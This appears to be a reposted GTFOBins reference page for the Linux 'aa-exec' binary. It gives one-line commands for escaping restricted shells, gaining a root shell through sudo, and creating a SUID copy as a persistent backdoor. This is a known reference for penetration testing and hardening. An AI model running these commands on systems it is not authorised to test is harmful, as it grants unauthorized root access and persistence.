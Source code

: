 ```yaml
---
title: "aa-exec"
author: GTFObins
categories: Tips
series: GTFObins
tags: [shell,suid,sudo]
toc: false
---
```



# Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```bash
aa-exec /bin/sh
```

# SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```bash
sudo install -m =xs $(which aa-exec) .

./aa-exec /bin/sh -p
```

# Sudo

If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```bash
sudo aa-exec /bin/sh
```
